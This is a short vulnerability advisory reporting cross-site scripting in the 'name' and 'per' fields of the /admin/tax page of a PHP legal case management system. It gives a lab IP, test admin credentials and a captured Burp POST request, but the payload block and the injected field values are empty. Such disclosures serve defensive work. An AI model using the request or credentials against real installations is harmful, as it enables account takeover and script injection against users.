

## Legal Case Management System

## XSS on `/admin/tax`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/tax
```

The parameter `name` /`per` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```

```

Burp Request:

```
POST /admin/tax HTTP/1.1
Host: 192.168.150.131
Content-Length: 538
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRJEXxXSvX52sOib7
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/tax
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6InlJUW9wK1NEOWx3dUY1VjcxM3l0YVE9PSIsInZhbHVlIjoiSnJDR1A5c09HRDRKMXdqRzBWN3AyTmFHWmtKTnB5cksrVHJ0UzhSbmNFcFwvaXhVdGZJdm16aW1NTkdLNlBiN0IiLCJtYWMiOiIyOTA5ZWNlNTYzMjY4ZDRiMjQwZWM1NjY4ZDVjNDc2MGNiNjA0MTFjNTBjZDJiYWE1OGY4OGM2ZDFmYmI0YTE5In0%3D; test_session=eyJpdiI6ImppaWxRV292eUtkcmxodEtMTE9ZN2c9PSIsInZhbHVlIjoiK2ROT1RmNG56WElrTzNnR0tVNTcxN1VkT01QZzF2eVlJRWhqeWpnSk95UWNkNWdsVitJWEh2TTM4U0VcL1U3YWgiLCJtYWMiOiIyZmZlZWIyYmJiMzAwMmRkYTc5OTUzNTdkNzY0Mjg0NzczMzE3ODQ5OWFjYWMwYjAxZTc3MDJkNWEyY2YyNjg2In0%3D
Connection: close

------WebKitFormBoundaryRJEXxXSvX52sOib7
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundaryRJEXxXSvX52sOib7
Content-Disposition: form-data; name="name"


------WebKitFormBoundaryRJEXxXSvX52sOib7
Content-Disposition: form-data; name="per"


------WebKitFormBoundaryRJEXxXSvX52sOib7
Content-Disposition: form-data; name="note"

3
------WebKitFormBoundaryRJEXxXSvX52sOib7--

```

### Screenshot


